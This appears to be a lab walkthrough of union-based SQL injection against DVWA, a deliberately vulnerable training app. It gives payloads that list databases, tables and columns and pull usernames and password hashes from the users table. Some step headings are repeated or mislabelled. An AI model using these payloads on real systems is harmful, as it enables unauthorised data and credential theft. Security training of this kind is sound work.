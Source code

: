 # SQL Injection

## Basic Requirements

* Goto SQL Injection's landing page.<br><br>
<img src="./images/01.sql_injection_landign_page.png"></img>
* Click on view-source, to check-out the source-code for the page.<br><br>
<img src="./images/02.SQL_injection_source.png"></img>
* Type random input to check type of output recieved after submitting.<br><br>
<img src="./images/03.enter_input.gif"></img>

## Basic Check for SQL Injection

* Basic check to verify whether a server is vulnerable to SQL injection is : single inverted comma.
* A server, vulnerable to SQL inejection would throw the following error if you enter ' as input in text-box:<br><br>
<img src="./images/04.error_msg.png"></img>

## Pre-requisites
### Basic My SQL Commands
* You should know basic SQL commands/operations such as SELECT, UNION, ORDER BY, GROUP BY etc. You can read about them - [here](https://dev.mysql.com/doc/refman/8.0/en/sql-syntax.html)

### Commenting in My SQL
* Anything after '#' is considered as a comment in SQL language.

### INFORMATION_SCHEMA.SCHEMATA table
* A schema is a database, so the SCHEMATA table provides information about databases.<br>


| Column name                    | Description                                                                        |
|--------------------------------|------------------------------------------------------------------------------------|
| **CATALOG_NAME**               | The name of the catalog to which the schema belongs.<br> This value is always def. |
| **SCHEMA_NAME**                | The name of the schema.                                                            |
| **DEFAULT_CHARACTER_SET_NAME** | The schema default character set.                                                  |
| **DEFAULT_COLLATION_NAME**     | The schema default collation.                                                      |
| **SQL_PATH**                   | This value is always NULL.                                                         |
| **DEFAULT_ENCRYPTION**         | The schema default encryption.                                                     |



* Syntax:<br>
```
SELECT SCHEMA_NAME AS `Database`
  FROM INFORMATION_SCHEMA.SCHEMATA
  [WHERE SCHEMA_NAME LIKE 'wild']

SHOW DATABASES
  [LIKE 'wild']
```

## Performing SQL Injection
### Step 1: Finding database related to users.
* We want to find out name of database and name of users attached to that database.
* Functions to use : `database()` and `user()` 
* Type the following command to print database used:<br>
`2'UNION SELECT database(), user() # `
<img src="./images/05.database_and_users.png"></img>

### Step 2: Using SCHEMATA to extract database name
* Type the following SQL Injection command to extract database name:
```
  2' UNION SELECT schema_name, 2 FROM information_schema.schemata #'
```
* Output is as follows :<br><br>
<img src="./images/11.edited_schemata.png"></img>

### Step 3: Using SCHEMATA to extract table name
* Type the following SQL Injection command to extract database name:
```
  2' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = 'dvwa' #'
```

* Output is as follows :<br><br>
<img src="./images/12.edited_table_name.png"></img>

### Step 3: Using SCHEMATA to extract column names
* Type the following SQL Injection command to extract database name:
```
  2' UNION SELECT column_name, column_type FROM information_schema.columns WHERE table_schema = 'dvwa' AND table_name = 'users' #'
```

* Output is as follows :<br><br>
<img src="./images/13.edited_col_name.png"></img>

### Step 3: Using SCHEMATA to extract username and encrypted passwords
* Type the following SQL Injection command to extract database name:
```
  2' UNION SELECT CONCAT(user_id, '-', first_name,' ', last_name), CONCAT(user, ':', password) FROM dvwa.users #'
```

* Output is as follows :<br><br>
<img src="./images/13.edited_pass.png"></img>








